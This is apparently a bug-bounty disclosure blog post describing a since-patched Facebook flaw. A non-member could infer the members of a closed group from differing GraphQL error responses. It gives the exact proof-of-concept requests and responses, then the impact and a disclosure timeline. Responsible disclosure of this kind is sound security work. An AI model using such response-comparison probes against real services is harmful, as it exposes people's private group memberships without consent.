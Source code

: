 ```yaml
---
title:  "Disclose members in any Groups."
date:   2019-11-24 12:24:15 +0800
categories: Hacking
classes:
  - landing
header:
  teaser: /assets/img/Facebook.jpg
---
```


I find that any non-member being maybe to disclose members in any closed Facebook group.

## POC / Reprosteps

User A ( In closed group (C) )
User B (non-member)

Poll question.

questionID":"2998452380182679" (Group C) -> user A


```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER A","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```

# Response

```
"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,
```

Now repeat step 1 replace menber ->  non-members

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER B","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
# Response

As opposed to a user who does not have a member 

``` 

"api_error_code": 200,
"summary": "Insufficient Permission",
"description": "You do not have the necessary permission for the specified Page to perform the requested action.",
"is_silent": false,

```
Replace a member in the group 
USER C ( in closed group )

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER C","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
# Response


```

"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,

```
member is known based on the difference in responses as well as being explicitly stated in the error message.

## Impact

This could potentially let an attacker infer whether a user has a member on a specific group.

## Timeline

13/09/2019: Report Sent
15/09/2019: Confirmation of reproduce by Facebook
19/09/2019: Further Investigation By Facebook
21/09/2019: Patched By Facebook
21/09/2019: Confirmation of patch by Facebook
03/11/2019: $3000 bounty awarded by Facebook


